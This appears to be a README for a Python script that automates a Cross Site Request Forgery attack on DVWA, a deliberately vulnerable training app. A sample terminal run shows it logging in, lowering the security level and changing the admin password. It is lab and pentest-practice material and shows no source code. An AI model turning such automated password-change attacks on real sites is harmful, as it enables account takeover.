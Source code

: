           
		  Hi guys, this tool is to automate the Cross Site Request Forgery for DVWA script.

		  Notice, that you have to add the IP, Password and Level, don't forget to choose one of 

		  these levels to accomplish the process:

		  ("high", "medium", "low").

		  here is an examples from my terminal :

		  xakep@pentester:~/Desktop/myscripts/owasp/web-vulns/csrf$ python csrf.py

			[!] Usage: [IP] [Password] [Level]
			[!] The default password for the first time is: password

		  xakep@pentester:~/Desktop/myscripts/owasp/web-vulns/csrf$ python csrf.py 192.168.43.2 password low

			   ______     ____        ___    
			  |  _ \ \   / /\ \      / / \   
			  | | | \ \ / /  \ \ /\ / / _ \  
			  | |_| |\ V /    \ V  V / ___ \ 
			  |____/  \_/      \_/\_/_/   \_\

			  ____ ____  ____  _____ 
			 / ___/ ___||  _ \|  ___|
			| |   \___ \| |_) | |_   
			| |___ ___) |  _ <|  _|  
			 \____|____/|_| \_\_| 

			  Author: Reznov - Pentester and hacker
			  Website: http://xakepu.blogspot.com
			  Github: https://github.com/reznov11
			  Twitter: @pentester11  

		[--] http://192.168.43.2/dvwa/login.php, Response: 200

		[*] Damn Vulnerable Web App (DVWA) v1.8 :: Welcome

		[?] Enter the security panel

		[!] You're inside the security panel > Damn Vulnerable Web App (DVWA) v1.8 :: DVWA Security

		[+] Now change the security level to low

		[*] Security now is: low

		[+] Now lets change the password for admin

		[!] Current password is: password

		[>] New Password: 123456

		[>] Confirm Password: 123456

		[--] Now wait to submit ...

		[*] Thats it you can login with the new password: 123456

		[*] Finished at 2015 17:35:21
